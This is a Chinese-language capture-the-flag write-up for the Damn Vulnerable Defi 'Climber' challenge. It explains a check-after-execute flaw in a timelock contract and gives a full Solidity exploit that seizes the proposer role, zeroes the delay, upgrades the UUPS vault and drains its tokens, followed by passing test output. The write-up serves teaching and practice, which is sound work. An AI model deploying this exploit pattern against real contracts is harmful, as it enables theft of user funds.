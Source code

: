 ## 题目 [Climber](https://github.com/theredguild/damn-vulnerable-defi/tree/v4.0.0/src/climber)

有一个安全的保险库合约，守护着 1000 万个 DVT 代币。这个保险库是可升级的，遵循 [UUPS 模式](https://eips.ethereum.org/EIPS/eip-1822)。  

保险库的所有者是一个时间锁合约。它每 15 天可以提取有限数量的代币。  

在保险库中，还有一个额外的角色，拥有在紧急情况下清空所有代币的权限。  

在时间锁合约中，只有拥有“提议者”角色的账户可以安排操作，这些操作可以在 1 小时后执行。  

你必须从保险库中救出所有代币并将其存入指定的恢复账户。  


## 题解
先说下时间锁中的操作状态：  
- Unknown: 操作未被注册（即该操作不存在）。
- Scheduled: 操作已经被注册并计划执行，但还未到达可以执行的时间。
- ReadyForExecution: 操作已经准备好可以执行（已经到达或超过了规定的延迟时间）。
- Executed: 操作已经被执行。

漏洞在 `ClimberTimelock` 合约的 `execute` 函数中，先对输入的调用进行执行，然后在对该调用进行是否在 `ReadyForExecution` 状态进行检查，这两个顺序写反了。  
``` solidity
    function execute(address[] calldata targets, uint256[] calldata values, bytes[] calldata dataElements, bytes32 salt)
        external
        payable
    {
        ...

        for (uint8 i = 0; i < targets.length; ++i) {
            targets[i].functionCallWithValue(dataElements[i], values[i]);
        }

        if (getOperationState(id) != OperationState.ReadyForExecution) {
            revert NotReadyForExecution(id);
        }

        operations[id].executed = true;
    }
```

正常情况下，应该是提案者进行提案，提案进入 `Scheduled` 的状态，然后到达延迟时间后，进入了 `ReadyForExecution` 状态，之后任何地址都可以调用 `execute` 函数，来执行提案。  

由于在 `execute` 中是先执行提案调用，那么我们可以做一个恶意的提案，其中修改延迟时间为 0，那么在执行了这些操作后，最后再 `schedule` 这个提案，这个提案立即就是 `ReadyForExecution` 状态了，所以后面的判断能通过。  

并且在 `updateDelay` 函数中，没有对延迟时间的最小限制。  
``` solidity
    function updateDelay(uint64 newDelay) external {
        if (msg.sender != address(this)) {
            revert CallerNotTimelock();
        }

        if (newDelay > MAX_DELAY) {
            revert NewDelayAboveMax();
        }

        delay = newDelay;
    }
```

具体步骤如下：  
1. 设计提案内容：
   - 把攻击合约设置为提案人。
   - 设置延迟时间为 0 。
   - 转移金库权限为攻击合约。
   - 对本提案中的内容列入时间表内。
2. 对金库合约进行升级，增加把所有代币转移的恢复地址的方法。
3. 执行转账方法。

POC:  
``` solidity
contract ClimberVaultV2 is ClimberVault {
    function sweepFunds(address token, address recovery) external {
        IERC20(token).transfer(recovery, IERC20(token).balanceOf(address(this)));
    }
}

contract ClimberExploit {
    ClimberTimelock timelock;
    ClimberVault vault;
    address token;
    address recovery;

    uint256[] private _values = [0, 0, 0, 0];
    address[] private _targets = new address[](4);
    bytes[] private _elements = new bytes[](4);
    
    constructor(address payable _timelock, address _vault, address _token, address _recovery) {
        timelock = ClimberTimelock(_timelock);
        token = _token;
        vault = ClimberVault(_vault);
        recovery = _recovery;
        _targets = [_timelock, _timelock, _vault, address(this)];
        _elements[0] = (
            abi.encodeWithSignature("grantRole(bytes32,address)", keccak256("PROPOSER_ROLE"), address(this))
        );
        _elements[1] = abi.encodeWithSignature("updateDelay(uint64)", 0);
        _elements[2] = abi.encodeWithSignature("transferOwnership(address)", address(this));
        _elements[3] = abi.encodeWithSignature("timelockSchedule()");
    }

    function timelockSchedule() external {
        timelock.schedule(_targets, _values, _elements, 0);
    }

    function attack() external {
        timelock.execute(_targets, _values, _elements, 0);
        vault.upgradeToAndCall(address(new ClimberVaultV2()), "");
        ClimberVaultV2(address(vault)).sweepFunds(token, recovery);
    }

}
```
test_climber：  
``` solidity
    function test_climber() public checkSolvedByPlayer {
        ClimberExploit climberExploit = new ClimberExploit(payable(timelock), address(vault), address(token), recovery);
        climberExploit.attack();
    }
```
运行测试： 
```
forge test --mp test/climber/Climber.t.sol 
```
测试结果：
```
Ran 2 tests for test/climber/Climber.t.sol:ClimberChallenge
[PASS] test_assertInitialState() (gas: 63711)
[PASS] test_climber() (gas: 4232141)
Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 9.91ms (2.44ms CPU time)
```

